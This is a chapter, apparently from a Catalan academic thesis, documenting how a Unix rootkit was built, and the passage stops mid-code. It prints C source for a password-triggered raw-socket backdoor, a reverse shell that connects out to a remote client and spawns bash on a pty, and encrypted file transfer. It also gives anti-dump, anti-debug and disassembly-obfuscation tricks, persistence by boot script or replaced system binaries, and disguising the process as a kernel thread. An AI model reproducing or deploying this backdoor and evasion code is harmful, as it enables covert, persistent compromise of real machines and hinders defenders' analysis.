% Sol.lució desenvolupada finalment
\chapter{Solució}

En aquest apartat es mostra en detall com s'han aconseguit les diferents funcionalitats que ens havíem plantejat de bon principi.
Com hem anat veient, les funcionalitats estan disponibles depenent del nivell de privilegis de què disposem. \\

Si sorgeix qualsevol dubte sobre l'objectiu d'alguna funcionalitat, es pot anar a la secció FUNCIONALITATS per tal de recordar amb més 
detall el perquè d'una funcionalitat concreta. \\

\section{Entorn no privilegiat}

\subsection{Executable ELF estàtic}

Per tal d'aconseguir crear un executable estàtic, s'ha utilitzat una llibreria opensource anomenada 
\href{http://www.google.es/url?sa=t&source=web&ct=res&cd=1&url=http%3A%2F%2Fwww.fefe.de%2Fdietlibc%2F&ei=zZRQStz4PMWrjAftmrinBQ&usg=AFQjCNFno9JYqJ06mbfgwKIZS5J-6zPYEw&sig2=WuvuDzhCaMMslcwtL4xa2A}{dietlibc}
aquesta llibreria és compatible amb la majoria de sistemes UNIX, i està pensada per a crear executables estàtics d'un tamany 
molt reduït. \\

Aquesta llibreria implementa gairebé les mateixes funcions que glibc, i per tant, ens permet decidir utilitzar-la sense gaires canvis en la manera de programar. Fer servir aquesta llibreria
ens lliga a programar el rootkit amb el llenguatge de programació C, però aquesta ja és una elecció que havíem pres de bon principi, ja que per a treballar tant a baix nivell,
necessitem un llenguatge de les característiques del C.\\

Per tal d'utilitzar aquesta llibreria, ens caldrà incloure-la i compilar-la d'una manera especial. Un cop fet això, el compilador et crea un executable estàtic apunt de ser executat.
\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYai[CFLAGS] @PYbe[=] -fno-builtin -Os -fomit-frame-pointer -nostdinc -DNODIETREF  @PYay[$(]EXTRA_CFLAGS@PYay[)] 
\end{Verbatim}
\caption{Flags de compilació utilitzats}
\label{fig:cflags}
\end{figure}

Els flats \ref{cflags} fan que el compilador no inclogui les funcions estandard, i que optimitzi el codi 
per a què l'executable final ocupi el mínim possible.

\subsection{Multiplataforma i multiarquitectura}

Per tal de que el nostre rootkit sigui multiplataforma i multiarquitectura, ens cal anar amb molta cura alhora de programar les 
seves funcionalitats. En el nostre cas, hem utilitzat en tot moment les funcions definides en l'estandard POSIX, d'aquesta manera a l'hora de provar el nostre rootkit en les diferents arquitectures, els canvis que hem hagut de realitzar, han estat mínims. Detalls com el tamany dels punters, ens afecten directament alhora de la creació
del rootkit, ja que varien entre arquitectures. \\

A l'hora d'amagar-nos, també ens caldrà tenir en compte el sistema on s'està executant el nostre rootkit, ja que la manera de treballar
d'un sistema operatiu respecte un altre, no són gens iguals. \\

S'ha probat el rootkit en diferents versions de GNU/Linux i BSD, en les arquitectures i386 i x86\_64. Tot
i això, se suposa que aquest hauria de funcionar en la majoria de sistemes operatius que compleixin 
l'estandard POSIX.


\subsection{Connexió}

Tal i com hem vist en el disseny del mode de comunicació TCP (REFERENCIA), el rootkit és capaç de quedar-se 
esperant rebre una connexió a un port TCP per part del client. \\

Podem veure en la figura \ref{fig:client_tcp_action2} que per a fer això, primer ens cal inicialitzar el paquet (REFERENCIA) de control amb els passwords corresponents, i un cop inicialitzat, enviar-lo cap al launcher per a començar a executar l'acció escollida: 

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYaE[// Generate packet]
memcpy(cmdpkt.pass, clientauth, @PYag[20]);
cmdpkt.port @PYbe[=] local_port;
cmdpkt.action @PYbe[=] action;
@PYay[if] (file) memcpy(cmdpkt.bytes, file, strlen(file));

@PYaE[// Send packet]
write(sock, @PYbe[&]cmdpkt, @PYay[sizeof](cmdpkt));
do_action(action, sock, sock, file);
\end{Verbatim}
\caption{client.c::tcp\_action()}
\label{fig:client_tcp_action2}
\end{figure}

\subsection{Obtenció d'una shell i un TTY}

Per a l'obtenció d'una shell lligada a un tty, només ens cal tenir disponible una shell en el sistema. En aquest cas, just després
d'establir la connexió, el launcher fa un fork per tal de poder gestionar amb un procés exclusiu la connexió i la shell. Això ho podem veure a la figura \ref{fig:launcher_do_action} just abans de la crida ``launcher\_shell''. Podem veure en aquesta mateixa figura que depenent de l'usuari que executi el codi, el rootkit utilitzarà un raw socket o no. Aquest detall s'explica en detall més endabant. (REFERENCIA)

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYay[case] SHELL:
    debug(@PYaB["]@PYaB[Launching shell]@PYao[\n]@PYaB["]);
    @PYay[if] (@PYbe[!]getuid()) {
        debug(@PYaB["]@PYaB[Starting DirectRAW service]@PYao[\n]@PYaB["]);
        r @PYbe[=] create_rawsock_session(rawsocks, ip@PYbe[-]@PYbe[>]s_addr, sport, d@PYbe[-]@PYbe[>]port);
        @PYay[if] (fork()) @PYay[return];
        launcher_shell(r@PYbe[-]@PYbe[>]r@PYZlb[]@PYag[0]@PYZrb[], r@PYbe[-]@PYbe[>]w@PYZlb[]@PYag[1]@PYZrb[]);
        destroy_rawsock_session(r);
    } @PYay[else] {
        @PYay[if] (fork()) @PYay[return];
        launcher_shell(sock, sock);
        close(sock);
    }
    @PYay[break];
\end{Verbatim}
\caption{launcher.c::do\_action()}
\label{fig:launcher_do_action}
\end{figure}

Un cop tenim
el procés que gestiona la nostre connexió, aquest obre el tty, lliga els seus descriptors de fitxer amb el tty, i executa la shell tal i com veiem a la figura \ref{fig:launcher_launcher_shell}.

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
pty @PYbe[=] open(@PYaB["]@PYaB[/dev/ptmx]@PYaB["], O_RDWR);
grantpt(pty);
unlockpt(pty);
tty @PYbe[=] open(ptsname(pty), O_RDWR);
@PYay[if](@PYbe[!](subshell @PYbe[=] fork())) {
    @PYay[if] (fork() @PYbe[!]@PYbe[=] @PYag[0]) exit(@PYag[0]);
    close(pty);
    close(sock);
    @PYaE[// new session to be used with bash]
    setsid();
    ioctl(tty, TIOCSCTTY, @PYaX[NULL]);
    @PYaE[// start using the new tty]
    dup2(tty, @PYag[0]);
    dup2(tty, @PYag[1]);
    dup2(tty, @PYag[2]);
    close(tty);
    @PYay[if] (getuid()) chdir(@PYaB["]@PYaB[/var/tmp]@PYaB["]);
    @PYay[else] chdir(HOME);
    execve(@PYaB["]@PYaB[/bin/bash]@PYaB["], argv_bash, envp);
\end{Verbatim}
\caption{launcher.c::launcher\_shell()}
\label{fig:launcher_launcher_shell}
\end{figure}

Un cop fet això, només falta lligar la connexió amb l'altre extrem del tty. D'aquesta manera les dades que es vagin rebent per la xarxa, es facin arribar a la shell, i les que envia la shell com a sortida, s'enviin de tornada a través de la xarxa. Podem veure això a la figura \ref{fig:client_client_shell} on es comproba dintre un bucle infinit si hi han dades en el descriptor 0 (entrada estandard) o en el descriptor rsock (descriptor de lectura de la xarxa)

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYaE[/* stdin => server */]
@PYay[if] (FD_ISSET(@PYag[0], @PYbe[&]fds)) {
    @PYaJ[int] count @PYbe[=] read(@PYag[0], buf, BUFSIZE);
    @PYay[if] (count @PYbe[<]@PYbe[=] @PYag[0] @PYbe[&]@PYbe[&] (errno @PYbe[!]@PYbe[=] EINTR)) @PYay[break];
    @PYay[if] (memchr(buf, ECHAR, count)) {
        rc4(buf, count, @PYbe[&]rc4_crypt);
        write(wsock, buf, count);
        @PYay[break];
    }
    rc4(buf, count, @PYbe[&]rc4_crypt);
    @PYay[if] (write(wsock, buf, count) @PYbe[<]@PYbe[=] @PYag[0] @PYbe[&]@PYbe[&] (errno @PYbe[!]@PYbe[=] EINTR)) @PYay[break];}
@PYaE[/* server => stdout */]
@PYay[if] (FD_ISSET(rsock, @PYbe[&]fds)) {
    @PYaJ[int] count @PYbe[=] read(rsock, buf, BUFSIZE);
    @PYay[if] (count @PYbe[<]@PYbe[=] @PYag[0] @PYbe[&]@PYbe[&] (errno @PYbe[!]@PYbe[=] EINTR)) @PYay[break];
    rc4(buf, count, @PYbe[&]rc4_decrypt);
    @PYay[if] (memchr(buf, ECHAR, count)) @PYay[break]; @PYaE[// to let server kill client]
    @PYay[if] (write(@PYag[1], buf, count) @PYbe[<]@PYbe[=] @PYag[0] @PYbe[&]@PYbe[&] (errno @PYbe[!]@PYbe[=] EINTR)) @PYay[break];}
\end{Verbatim}
\caption{client.c::client\_shell()}
\label{fig:client_client_shell}
\end{figure}

\subsection{Mode comanda / Mode servei}

Tal com hem vist anteriorment (REFERENCIA), podem veure que aquest mode s'escull tot llançant el launcher
amb dos paràmetres, i que en aquest cas és el launcher qui es connecta al client \ref{fig:launcher_main}.

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYaJ[int] @PYaL[main](@PYaJ[int] argc, @PYaJ[char] @PYbe[*]@PYbe[*]argv) {
    @PYaE[// Command mode]
    @PYay[if] (argc @PYbe[=]@PYbe[=] @PYag[3]){
        @PYaJ[unsigned] @PYaJ[short] port @PYbe[=] atoi(argv@PYZlb[]@PYag[2]@PYZrb[]);
        @PYaJ[unsigned] @PYaJ[long] ip;
        @PYaJ[char] ipname@PYZlb[]@PYag[64]@PYZrb[];
        @PYaJ[int] sock;
        debug(@PYaB["]@PYaB[Iniciant reverse tty]@PYao[\n]@PYaB["]);
        ip @PYbe[=] resolve(argv@PYZlb[]@PYag[1]@PYZrb[], ipname);
        @PYay[if] (ip @PYbe[=]@PYbe[=] INADDR_NONE) {
            perror(argv@PYZlb[]@PYag[1]@PYZrb[]);
            @PYay[return] @PYag[1];
        }

        debug(@PYaB["]@PYaB[Connecting to %s:%d]@PYao[\n]@PYaB["],ipname,port);
        @PYay[if] ((sock @PYbe[=] launcher_rcon(ip, port))) {
            launcher_shell(sock, sock);
            close(sock);
        }
\end{Verbatim}
\caption{launcher.c::main()}
\label{fig:launcher_main}
\end{figure}

A més, aquesta funcionalitat tracta de no deixar cap procés en execució un cop portada a terme l'acció.

\subsection{Transferència de fitxers}

Per a transferir fitxers entre client i servidor, es segueix gairebé el mateix procediment, independentment de si és un enviament o una recepció. \\

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
    rc4_init((@PYaJ[unsigned] @PYaJ[char] @PYbe[*])KEY, @PYay[sizeof](KEY), @PYbe[&]rc4_crypt);

    @PYay[if] ((fd @PYbe[=] open(file, O_RDONLY)) @PYbe[>=] @PYag[0]) {
        size @PYbe[=] lseek(fd, @PYag[0], SEEK_END);
        lseek(fd, @PYag[0], SEEK_SET);
        bytes @PYbe[=] @PYag[0];
        transfered @PYbe[=] @PYag[0];
        printf(@PYaB["]@PYaB[Size: %lu bytes]@PYao[\n]@PYaB["], size);
        @PYay[while] ((bytes @PYbe[=] read(fd, buf, BUFSIZE)) @PYbe[>] @PYag[0]) {
            rc4(buf, bytes, @PYbe[&]rc4_crypt);
            printf(@PYaB["]@PYao[\r]@PYaB[Uploaded: %lu%%]@PYaB["], (transfered@PYbe[/](@PYag[1]@PYbe[+](size@PYbe[/]@PYag[100]))));
        }
        printf(@PYaB["]@PYao[\r]@PYaB[Uploaded: 100%%]@PYao[\n]@PYaB["]);
        printf(@PYaB["]@PYaB[Fitxer %s enviat!]@PYao[\n]@PYaB["], file);
        sleep(@PYag[2]);
    }
\end{Verbatim}
    \caption{client.c::client\_upload()}
    \label{fig:client_client_upload}
\end{figure}

Ambdós casos, en un cantó de la transmisió, caldrà obrir el fitxer, llegir-lo i enviar-lo. En l'altre part,
caldrà crear un fitxer i començar a ompliar-lo amb les dades rebudes. \\

En el moment en què no es reven més dades, es tanca la connexió, i el fitxer ja és apunt de ser utilitzat.

\subsection{Comunicació xifrada}

Per tal de xifrar tota la informació enviada per la xarxa, s'ha implementat en C l'algoritme simètric RC4.
S'ha escollit aquest algoritme per la seva senzillesa en la implementació juntament amb la gran seguretat
que ofereix.

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYap[inline] @PYaJ[void] @PYaL[rc4] (@PYaJ[unsigned] @PYaJ[char] @PYbe[*]data, @PYaJ[int] len, rc4_ctx @PYbe[*]ctx) {
    @PYaJ[unsigned] @PYaJ[char] @PYbe[*]state @PYbe[=] ctx@PYbe[-]@PYbe[>]state;
    @PYaJ[unsigned] @PYaJ[char] x @PYbe[=] ctx@PYbe[-]@PYbe[>]x;
    @PYaJ[unsigned] @PYaJ[char] y @PYbe[=] ctx@PYbe[-]@PYbe[>]y;
    @PYaJ[int]  i;
    
    @PYay[for] (i @PYbe[=] @PYag[0]; i @PYbe[<] len; i@PYbe[+]@PYbe[+]) {
        @PYaJ[unsigned] @PYaJ[char] xor;
    
        x@PYbe[+]@PYbe[+];
        y @PYbe[=] state@PYZlb[]x@PYZrb[] @PYbe[+] y;
        swap(@PYbe[&]state@PYZlb[]x@PYZrb[], @PYbe[&]state@PYZlb[]y@PYZrb[]);
    
        xor @PYbe[=] state@PYZlb[]x@PYZrb[] @PYbe[+] state@PYZlb[]y@PYZrb[];
        data@PYZlb[]i@PYZrb[] @PYbe[^]@PYbe[=] state@PYZlb[]xor@PYZrb[];
    }
    
    ctx@PYbe[-]@PYbe[>]x @PYbe[=] x;
    ctx@PYbe[-]@PYbe[>]y @PYbe[=] y;
}
\end{Verbatim}

    \caption{rc4.c - funció per xifrar/desxifrar}
    \label{fig:rc4_rc4}
\end{figure}

Per tal d'utilitzar-lo, ens cal que tant el launcher com el client es trobin amb el mateix estat perquè així
el contingut xifrat i desxifrat, sigui el mateix ambdós cantons. Per aconseguir això, cal que inicialitzem
dues estructures de control, una la utilitzarem per a xifrar i l'altre per a desxifrar. D'aquesta manera, 
assegurarem que en el moment que anem a desxifrar les dades que hem rebut, tenim el mateix estat que el 
launcher en el moment que ha xifrat.

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
rc4_init((@PYaJ[unsigned] @PYaJ[char] @PYbe[*])KEY, @PYay[sizeof](KEY), @PYbe[&]rc4_crypt);
rc4_init((@PYaJ[unsigned] @PYaJ[char] @PYbe[*])KEY, @PYay[sizeof](KEY), @PYbe[&]rc4_decrypt);
\end{Verbatim}
    \caption{Inicialització de les estructures de control per a l'rc4}
    \label{fig:rc4_inits}
\end{figure}

Apart d'aquesta inicialització, cal que en els diferents punts del codi on es transfereixen i on es reben 
dades, s'utilitzin les funcions de xifrar i desxifrar amb l'estructura de control corresponent. \\

Si en fixem en l'anterior figura \ref{fig:client_client_shell} veurem que les dades són desxifrades just després de rebre-les
i xifrades just abans d'enviar-les.

\subsection{Autenticació per contrasenya}

En el moment en què es compila el rootkit, aquest ens demana una contrasenya per el launcher que serà la 
què haurà d'utilitzar el client alhora de voler llançar accions sobre un altre launcher. De la 
contrasenya escollida, se'n derivaran tres claus diferents. 

\begin{description}
    \item[CLIENTAUTH] És la requerida per el launcher per a què un paquet enviat pel client sigui considerat 
        vàlid.
    \item[SERVERAUTH] És la requerida per el client per a què un paquet enviat pel launcher sigui considerat
        vàlid.
    \item[RC4KEY] És la clau utilitzada per l'algoritme rc4 per xifrar el contingut dels paquets.
\end{description}

En la figura \ref{fig:config} es veu la definició d'aquestes variables en el fitxer de configuració.

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYaN[#]@PYaN[define CLIENTAUTH "\xf1\x0e\x28\x21\xbb\xbe\xa5\x27\xea\x02\x20\x3b\xc0\x59\x44\x51\x90"]
@PYaN[#]@PYaN[define SERVERAUTH "\x90\x6f\x49\x40\xda\xdf\xc4\x46\x8b\x63\x41\x5a\xa1\x38\x25\x30\xf1"]
@PYaN[#]@PYaN[define RC4KEY "\x82\x7d\x5b\x52\xc8\xcd\xd6\x54\x99\x71\x53\x70\xb3\x2a\x37\x22\xe3"]
\end{Verbatim}
    \caption{config.h}
    \label{fig:config}
\end{figure}

En el client, la contrasenya és sol·licitada en el moment d'executar-se. Llavors, en el client 
s'inicialitzen les diferents claus en base a la contrasenya entrada.

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
printf(@PYaB["]@PYaB[password: ]@PYaB["]); fflush(stdout);
fgets(p, @PYag[64], stdin); fflush(stdin);
p@PYZlb[]strlen(p) @PYbe[-] @PYag[1]@PYZrb[] @PYbe[=] @PYac['\0'];
tcsetattr(@PYag[0], TCSAFLUSH, @PYbe[&]old);

sha1((@PYaJ[unsigned] @PYaJ[char] @PYbe[*])p, strlen(p), clientauth);
printf(@PYaB["]@PYao[\n]@PYaB["]);
@PYaJ[int] i @PYbe[=] @PYag[0];
@PYay[for] (i @PYbe[=] @PYag[0]; i @PYbe[<] @PYag[20]; i@PYbe[+]@PYbe[+]) {
    serverauth@PYZlb[]i@PYZrb[] @PYbe[=] clientauth@PYZlb[]i@PYZrb[]@PYbe[^]p@PYZlb[]@PYag[0]@PYZrb[];
}
@PYay[for] (i @PYbe[=] @PYag[0]; i @PYbe[<] @PYag[20]; i@PYbe[+]@PYbe[+]) {
    rc4key@PYZlb[]i@PYZrb[] @PYbe[=] clientauth@PYZlb[]i@PYZrb[]@PYbe[^]p@PYZlb[]@PYag[1]@PYZrb[];
}
\end{Verbatim}
    \caption{client.c::get\_pass()}
    \label{fig:client_get_pass}
\end{figure}
 
\subsection{Detecció del rootkit}
Per tal de detectar si hi ha un rootkit en execució en una màquina remota, s'ha implementat una acció
que pot ser executada independentment del password utilitzat. Com s'ha comentat en punts
anteriors, cada cop que el launcher rep un paquet del tamany exacte, aquest n'extreu de la capçalera, 20 
bytes i els compara amb el password que ell té. \\

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYay[while] (@PYag[1]) {
    size @PYbe[=] recvfrom(sock, @PYbe[&]p, @PYay[sizeof](p), @PYag[0], (@PYay[struct] sockaddr @PYbe[*]) @PYbe[&]raw, @PYbe[&]slen);
    @PYaE[// Si el tamany del paquet es el que toca]
    @PYay[if] (size @PYbe[=]@PYbe[=] @PYay[sizeof](@PYay[struct] packet)) {
        @PYaE[// I el password és correcte]
        @PYay[if] (@PYbe[!]memcmp(CLIENTAUTH, p.action.pass, @PYag[20])) {
            debug(@PYaB["]@PYaB[S'ha rebut el paquet d'autenticat (action: %d)]@PYao[\n]@PYaB["], p.action.action);
            do_action(@PYbe[&](p.action), @PYbe[&]raw.sin_addr, ntohs(p.tcp.dest), @PYag[0]);
        } @PYay[else] @PYay[if] (@PYbe[!]memcmp(CHECKSTR, p.action.pass, @PYag[20]) 
                @PYbe[&]@PYbe[&] (p.action.action @PYbe[=]@PYbe[=] CHECK @PYbe[|]@PYbe[|] p.action.action @PYbe[=]@PYbe[=] REVCHECK)) {
            debug(@PYaB["]@PYaB[S'ha rebut el paquet de CHECK]@PYao[\n]@PYaB["]);
            do_action(@PYbe[&](p.action), @PYbe[&]raw.sin_addr, ntohs(p.tcp.dest), @PYag[0]);
		}
    }
}
\end{Verbatim}
    \caption{launcher.c::raw\_daemon()}
    \label{fig:raw_daemon}
\end{figure}

Tal i com es pot veure en la figura \ref{fig:raw_daemon}, si un d'aquests paquets no conté el password correcte, també
es comprova si és un paquet de detecció. En cas de ser-ho, es respon per tal de donar a conèixer que 
efectivament en la màquina hi ha el launcher en execució. \\

\subsection{Proteccions de l'executable}
\subsubsection{Xifratge de l'executable}
La primera tècnica utilitzada consisteix en xifrar l'executable per a fer-ne més difícil l'anàlisi. La idea 
és acabar tenint l'executable original xifrat, però afegint al principi de tot, un codi capaç de, en temps 
d'execució, recuperar en memòria l'executable inicial. Un cop l'executable inicial està desxifrat en memòria,
caldrà continuar l'execució en ell per seguir tal i com faria l'executable original. \\

Un altre punt que ens interessa, és la impossibilitat per part d'un tercer de desxifrar l'executable per 
tal d'analitzar-lo sense aquesta protecció. Per aquest motiu, no es podia utilitzar cap codi existent
dels què n'existeix també l'eina per a desxifrar. \\

Per tal d'aconseguir aquestes funcionalitats, es va optar per acabar modificant 
l'última versió del packer UPX\footnote{\href{http://upx.sourceforge.net/}{Ultimate Packer for eXecutables}: 
millor packer públic que existeix avui en dia.}. D'aquesta manera s'ha obtingut un packer molt portable, que alhora 
comprimeix l'executable, i que a més, només és descomprimible per nosaltres. \\

Amb aquesta tècnica, aconseguim que per tal d'analitzar l'executable xifrat, només tinguem dues possibilitats: 
\begin{itemize}
	\item Intentar volcar la memòria, i analitzar aquest volcatge.
	\item Debugar el codi directament en memòria i mentre està sent executat.
\end{itemize}

Les millores eines d'anàlisi de binaris, necessiten un executable per tal de començar a treballar. Algunes
també permeten treballar amb volcats de memòria, però mai podran mostrar la mateixa quantitat d'informació
ni permetran fer servir les mateixes eines d'anàlisi que quan es disposa de l'executable inicial. En resum,
el què voldrà fer un analista que estigui treballant sobre el nostre executable, és reconstruir un ELF 
a partir de la memòria, per poder així treballar còmodament. \\

Fins fa relativament poc, no existia cap eina pública que permetés fer això en sistemes actuals. Per tal 
de poder aprofundir més en el projecte i durant el transcurs d'aquest, em vaig disposar a implementar-ne una.
Aquesta eina l'anomeno skpd\footnote{\href{http://www.wekk.net/skpd/}{skpd}: sk Process Dump, utilitat per
construir un ELF executable a partir d'un procés en execució} i permet fer justament això: volcar un procés 
que estigui en execució a la nostre màquina, i construir un ELF per tal que aquest procés torni a ser llançat. 

\subsubsection{Modificació de l'estat}
Tal i com s'ha vist en el punt anterior, la millor opció és intentar reconstruir un ELF a partir del
procés en execució. \\

Aquesta tècnica de modificar l'estat, és aplicada per a posar-ho més difícil, i que llavors aquest 
executable reconstruït o el codi volcat no pugui funcionar directament. \\

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYaJ[int] simple_anti_spkd @PYbe[=] @PYag[1];

@PYaJ[int] @PYaL[main](@PYaJ[int] argc, @PYaJ[char] @PYbe[*]argv@PYZlb[]@PYZrb[]) {
    @PYay[if] (simple_anti_spkd @PYbe[=]@PYbe[=] @PYag[0] ) @PYbe[*](@PYaJ[int] @PYbe[*])port @PYbe[=] @PYaT[0xdeadfeef];
    simple_anti_spkd @PYbe[=] @PYag[0];
\end{Verbatim}
\caption{launcher.c::main()}
\label{fig:antidebug_modificar_estat}
\end{figure}

Com veiem al codi de la figura \ref{fig:antidebug_modificar_estat}, tracta de crear una variable global que el compilador la situarà a la secció
.bss de l'ELF. L'execució d'aquest codi, mai entrarà dintre l'if, ja que al ser llançat el main, la variable 
``simple\_anti\_spkd'' valdrà ``1'', i només valdrà ``0'' després quan ja mai més és torna a checkejar. \\

La utilitat d'aquest tros de codi apareix quan ens plantegem volcar la memòria en un punt de l'execució del 
programa. Si un cop aquest programa s'està executant, en capturem la memòria, el valor de la 
variable ``simple\_anti\_spkd'' ja no serà ``1'', sinó que serà ``0''. Al intentar executar aquest codi
volcat, ens trobarem que només començar l'execució del programa, aquest entra a l'if tot provocant una 
violació de segment provocada per nosaltres.  \\

Per un analista no avançat, molt probablement significarà que la reconstrucció de la memòria no ha anat bé,
o almenys, que no és capaç d'executar-lo.

\subsubsection{Evitar el debug}
Per tal d'evitar que ens debuguin el rootkit, aquest contínuament utilitza el signal TRAP (que és el 
què utilitzen els debugers per funcionar). D'aquesta manera el nostre rootkit durant el seu normal 
funcionament, anirà setejant el signal handler per els traps, i llançant interrupcions. Si no és el seu 
signal handler el qui captura la interrupció, aquest provocarà un segmentation fault per finalitzar
de forma sospitosa per el possible analitzador.

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYaN[#]@PYaN[define antidebug_sigtrap() \]
@PYaN[    signal(SIGTRAP, antidebug_sigtrap_handler); \]
@PYaN[    __asm__("int3"); \]
@PYaN[    signal(SIGTRAP, SIG_DFL); \]
@PYaN[	if (antidebug_sigtrap_var != 1) { \]
@PYaN[        debug("antidebug_sigtrap reached!\n"); \]
@PYaN[        int segfaultaddr = 0; \]
@PYaN[        *(int *)segfaultaddr = 0xdeadfeef; \]
@PYaN[    } \]
@PYaN[	else antidebug_sigtrap_var = 0; \]
\end{Verbatim}
\caption{antidebug.h}
\label{fig:antidebug_set_sigtrap}
\end{figure}

\subsubsection{Ofuscar el codi}
La última tècnica utilitzada per a protegir el nostre rootkit, és utilitzada per ofuscar el codi del nostre
executable. L'objectiu d'aquesta tècnica és dificultar l'anàlisi del codi ja que el què fem, és introduir
en el codi, salts a posicions que no poden ser resoltes estàticament.  \\

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYaN[#]@PYaN[define antidebug_obfuscate_analysis(value) \]
@PYaN[__asm__("pushl %eax\n" \]
@PYaN[        "jmp antidebug1" #value " + 2\n" \]
@PYaN[        "antidebug1" #value ":\n" \]
@PYaN[        ".short 0x457c\n" \]
@PYaN[        "call reloc" #value "\n" \]
@PYaN[        "reloc" #value ":\n" \]
@PYaN[        "popl %eax\n"\]
@PYaN[        "jmp antidebug2" #value "\n"\]
@PYaN[        "antidebug2" #value ":\n"\]
@PYaN[        "addl $(data" #value " - reloc" #value " + 4), %eax\n"\]
@PYaN[        "jmp *%eax\n" \]
@PYaN[        "data" #value ":\n" \]
@PYaN[        ".long 0\n" \]
@PYaN[        "popl %eax\n" \]
@PYaN[        );]
@PYaN[#]@PYaN[endif]
\end{Verbatim}
\caption{antidebug.h}
\label{fig:antidebug_obfuscate}
\end{figure}

Per tal de poder aconseguir aquesta obuscació a tant baix nivell, ens cal utilitzar ensamblador per a 
aplicar aquestes tècniques. \\

Com podem veure a la figura \ref{fig:antidebug_obfuscate}, el què fem, és calcular l'adreça de just 
després del nostre codi, i saltar fent servir aquest punter. Això implica que el programes que analitzen
el flux del codi, es perdin en aquest punt, i no sàpiguen com continuar ja que aquest salt només serà 
resolt en temps d'execució. \\

Una altre tècnica que s'implementa en el mateix tros de còdi, és la de injecció de bytes per a enganyar el
desensamblat. Podem veure en la mateixa figura que a la quarta línia, inserim els bytes 0x457c. Fer això
just en aquest punt, profocarà que els bytes que formen la instrucció call de darrere, siguin utilitzats
juntament amb el 0x457c trencant així el ``call'', i mostran un ``movl \$0x0,-0x18(\%ebp)''. \\

En la figura \ref{fig:antidebug_obfuscate2} es pot veure el resultat de desensamblar la figura \ref{fig:antidebug_obfuscate}

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYag[804]@PYah[a04c:]       @PYag[50]                      push   @PYbe[%]eax
@PYag[804]@PYah[a04d:]       eb @PYae[02]                   jmp    @PYaT[0x804a051]
@PYag[804]@PYah[a04f:]       c7 @PYag[45] e8 @PYae[00] @PYae[00] @PYae[00] @PYae[00]    movl   @PYaI[$]@PYaT[0x0],@PYbe[-]@PYaT[0x18](@PYbe[%]ebp)
@PYag[804]@PYah[a056:]       @PYag[58]                      pop    @PYbe[%]eax
@PYag[804]@PYah[a057:]       eb @PYae[00]                   jmp    @PYaT[0x804a059]
@PYag[804]@PYah[a059:]       @PYae[05] @PYag[0]e @PYae[00] @PYae[00] @PYae[00]          add    @PYaI[$]@PYaT[0xe],@PYbe[%]eax
@PYag[804]@PYah[a05e:]       ff e0                   jmp    @PYbe[*]@PYbe[%]eax
@PYag[804]@PYah[a060:]       @PYae[00] @PYae[00]                   add    @PYbe[%]al,(@PYbe[%]eax)
@PYag[804]@PYah[a062:]       @PYae[00] @PYae[00]                   add    @PYbe[%]al,(@PYbe[%]eax)
@PYag[804]@PYah[a064:]       @PYag[58]                      pop    @PYbe[%]eax
\end{Verbatim}
	\caption{Resultat de la comanda objdump}
	\label{fig:antidebug_obfuscate2}
\end{figure}

Finalment comentar que aquestes dues tècniques també shan aplicat en tot el codi del rootkit.

\subsection{Supervivència del rootkit}
Per tal d'aconseguir que el nostre rootkit torni a arrancar, tenim diferents opcions:
\begin{itemize}
\item Colocar un script amb els scripts d'inici del sistema per a què s'arranqui amb el SO.
\item Substituir un executable del sistema, per un wrapper nostre.
\item Infectar un executable del sistema per a què en cada execució també executi el nostre programa.
\end{itemize}

\subsubsection{Script d'inici}
En cas d'un Unix System V, una manera d'activar el nostre rootkit cada vegada que la màquina es reiniciés, seria
col·locant un script al directori d'arrancada com per exemple /etc/rc3.d/ amb el nom S99inetd per tal
d'intentar passar desaparcebuts. Al reiniciar el sistema, el nostre rootkit seria executat.

\subsubsection{Substituir executable}
Una segona opció, seria renombrar un executable de sistema com podria ser /sbin/getty per algo com /sbin/agetty,
i posar al seu lloc un executable nostre que executés el nostre rootkit, i que alhora llancés el programa 
original. 

\subsubsection{Infecció d'un executable}
Una tècnica més avançada, seria infectar un executable per a que ell mateix executés el rootkit just abans 
d'executar-se. Aquest executable també hauria de ser de sistema, ja que ens interessarà que el nostre rootkit
s'executi com a usuari root.

\subsection{Tasques programades}
Per tal de portar a terme les tasques programades, el rootkit intenta llançar un script anomenat .daily, .weekly, o .monthly amb la periodicitat que el propì 
nom de l'arxiu ens indica. Aquesta execució es realitza programant un alert diàriament tot incrementant uns contadors de tal manera que quan hagi passat el temps, s'executarà l'script necessari utilitzant la crida ``system()'' 

Aquests scripts els busca en el directory arrel del home del rootkit (també demanat en el moment de la configuració), i en cas de no ser-hi, no passa res.
  
\subsection{Ocultació}
Per tal d'evitar que el rootkit sigui detectat, s'han implementat diferents tècniques:
\begin{enumerate}
\item Executable i nom de procés igual que una runqueue del kernel de LINUX. \\
Per tal de passar desapercebut, el fitxer s'anomena pdflush. D'aquesta manera, la sortida de la comanda top, 
visualitza igual les runqueues que el nostre procés. A més, l'executable quan és llençat, modifica la posició de memòria on es troba el nom del procés, i en canvia el contingut
per a [pdflush], que és com es representa la runqueue del kernel de Linux. Aquest nom és escollit en temps de compilació, i pot ser qualsevol altre per tal de permetre al
rootkit adoptar un altre nom per a amagar-se en altres sistemes operatius.

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
    @PYaJ[void] @PYaL[rename_proc](@PYaJ[char] @PYbe[*]@PYbe[*]argv, @PYaJ[int] argc) {
        @PYaJ[int] i;
        @PYay[for] (i @PYbe[=] @PYag[0]; i @PYbe[<] argc; i@PYbe[+]@PYbe[+]) {
